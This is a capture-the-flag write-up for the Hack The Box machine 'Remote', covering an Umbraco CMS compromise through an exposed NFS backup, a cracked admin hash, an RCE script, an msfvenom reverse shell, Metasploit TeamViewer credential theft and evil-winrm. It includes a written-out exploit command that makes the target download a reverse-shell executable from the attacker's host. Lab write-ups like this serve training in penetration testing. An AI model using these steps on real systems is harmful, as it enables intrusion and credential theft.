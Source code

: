 ```yaml
---
title: Remote
date: 2020-12-24
excerpt: "'Remote' is an Easy rated box on Hack The Box. We'll be looking at Umbraco CMS, public mountable shares, shell crafting with msfvenom and using evil-winrm for login."
classes: wide
tags:
  - htb
  - umbraco
  - metasploit
  - msfvenom
  - windows
  - winpeas
  - evil-winrm
---
```



![nmap](/assets/images/htb/remote/header.png)

### Port Scanning and general enumeration (Nmap, Umbraco)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Umbraco](https://umbraco.com/)
 
`nmap -sC -sV -oN nmap/initial -T4 10.10.10.180`

![nmap](/assets/images/htb/remote/nmap.png)

Interesting. FTP, Webserver and maybe some nfs shares we can mount?

Let's take a look at the site

![nmap](/assets/images/htb/remote/site1.png)

Looks like some sort of blog.. 'Umbraco'?

![nmap](/assets/images/htb/remote/site2.png)

![nmap](/assets/images/htb/remote/login.png)

So we've found a login form. Nice. Default creds didn't work, so we'll come back to this.

Let's see if there's anything to mount

![nmap](/assets/images/htb/remote/showmount.png)

Interesting! Let's mount it

`sudo mount -t nfs 10.10.10.180:/site_backups /path/to/where/you/want/to/save/it`

Full site backup!

Since we know the backend is **Umbraco**, we can find the version in the `Web.config` file and credentials in the `App_Data/Umbraco.sdf` file.

Version:

![nmap](/assets/images/htb/remote/version.png)

To get the credentials we can run `strings` on the `Umbraco.sdf` file, redirect it to a file and run `head` on that file

![nmap](/assets/images/htb/remote/creds.png)

So the admin password is a `SHA1` hash. Let's crack it and log in using `Admin@htb.local:cracked-password` in the forms we found earlier.

---

### Access (Umbraco RCE, msfvenom)
* Reading/Resources
  * [Umbraco RCE](https://github.com/noraj/Umbraco-RCE)
  * [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  * [Metasploit](https://www.metasploit.com/)
  

So now that we're authenticated we have a little more room to play with things. I found this [Umbraco RCE](https://github.com/noraj/Umbraco-RCE) script that should be perfect

![nmap](/assets/images/htb/remote/rce.png)

Nice! So now we have remote code execution. Let's get a proper shell

![nmap](/assets/images/htb/remote/msvenom.png)

Stand up a simple [python http server](https://docs.python.org/3/library/http.server.html) and use the exploit to transfer our executable to the machine

`python3 exploit.py -u admin@htb.local -p password -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Invoke-WebRequest -Uri http://10.10.14.22:8000/rev.exe -OutFile C:/Users/Public/rev.exe`

Now that our shell is on the box, let's fire up a `metasploit` listener

![nmap](/assets/images/htb/remote/listener.png)

Trigger the shell and off we go

---

### Privesc (winPEAS, evil-winrm)
* Reading/Resources
  * [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)

Now that we're on the box, let's do some enumeration. I like [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Upload and run it

![nmap](/assets/images/htb/remote/peasupload.png)

![nmap](/assets/images/htb/remote/peas.png)

Interesting. Teamviewer7 also has a [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md). Let's see what that has for us

Background your meterpreter session and

![nmap](/assets/images/htb/remote/teamviewersearch.png)

![nmap](/assets/images/htb/remote/teamviewerpassword.png)

Could that be the **Admin** password? Let's check using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

![nmap](/assets/images/htb/remote/admin.png)

![nmap](/assets/images/htb/remote/userflag.png)

![nmap](/assets/images/htb/remote/rootflag.png)
